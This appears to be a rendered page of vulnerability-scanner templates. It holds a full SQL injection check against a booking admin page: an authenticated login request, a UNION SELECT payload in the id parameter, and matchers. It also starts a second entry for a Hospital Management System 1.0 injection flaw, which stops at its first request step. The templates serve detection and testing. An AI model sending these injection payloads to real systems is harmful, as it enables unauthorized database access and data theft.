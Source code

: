 ## Requests

### Step - 1

```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}

```

### Step - 2

```
GET /admin/manage_booking.php?id=-1%20union%20select%201,2,3,4,5,6,md5({{num}}),8,9,10,11--+ HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

**Type - status**

- status
  1. 200

---

# Hospital Management System 1.0 - SQL Injection

## Description

- Hospital Management System 1.0 contains a SQL injection vulnerability via the editid parameter in /HMS/admin.php. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,hms,cms,sqli

## Requests

### Step - 1
